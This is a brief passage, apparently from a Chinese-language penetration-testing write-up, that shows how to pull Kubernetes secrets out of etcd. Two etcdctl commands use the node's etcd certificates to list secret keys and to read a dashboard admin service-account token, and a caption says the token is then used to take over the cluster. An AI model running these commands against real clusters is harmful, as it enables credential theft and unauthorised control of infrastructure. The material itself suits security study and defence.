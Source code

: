 查看 K8s Secret

```bash
./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379/ get / --prefix --keys-only | grep /secrets/
```

[![](assets/1701826061-e27f949c8b7dfb2f2c88f174f38d5751.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170530-a5902216-7315-1.png)  
读取服务 Token

```bash
./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379/ get /registry/secrets/kubernetes-dashboard/admin-myuser-token-jcj9d
```

[![](assets/1701826061-38c85a02fc0d13fac67c16f8963d49fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170551-b215a506-7315-1.png)  
Token 接管集群
